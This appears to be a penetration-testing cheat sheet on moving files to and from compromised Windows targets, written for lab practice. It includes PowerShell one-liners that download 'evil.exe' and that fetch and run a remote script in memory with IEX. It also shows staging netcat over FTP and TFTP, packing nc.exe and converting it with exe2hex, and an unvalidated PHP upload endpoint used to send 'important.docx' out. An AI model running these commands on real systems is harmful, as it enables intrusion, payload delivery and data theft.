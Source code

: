 # File Transfers

sudo apt install pure-ftpd

```bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/

We could make a text file that contains the FTP process:
```
open 192.168.119.153
USER offsec
lab>
bin
GET nc.exe
bye
```

And transfer it to the target:
`ftp -v -n -s:ftp.txt`

* `-v` to suppress output.
* `-n` to suppress automatic login.
* `-s` to indicate the filename of commands.

One liner Powershell downloader:  
`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.20/evil.exe', 'new-exploit.exe')`  

Download and execute a script without saving to disk:  
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.0.1/helloworld.ps1')`  

### Windows Uploads with exe2hex and PS.
Sample flow. Find and inspect file:
```
locate nc.exe | grep binaries
cp /usr/share/windows-resources/binaries/nc.exe .
ls -lh nc.exe
# Note file size

upz -9 nc.exe
# PE compression tool / executable packer.
# Note file size again.

# Conver to a Windows script to run which will convert the file to hex and instruct Powershell to reassemble back to binary:  
exe2hex -x nc.exe -p nc.cmd

# Check it
head nc.cmd
```

### Windows Scripting Uploads

Create a simple PHP upload script:
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
And POST data to it:  
`powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')`

### Use TFTP

Setup on kali:
```bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

On windows use `-i` for a binary transfer and `put` for an upload:  
`tftp -i 10.11.0.4 put important.docx`




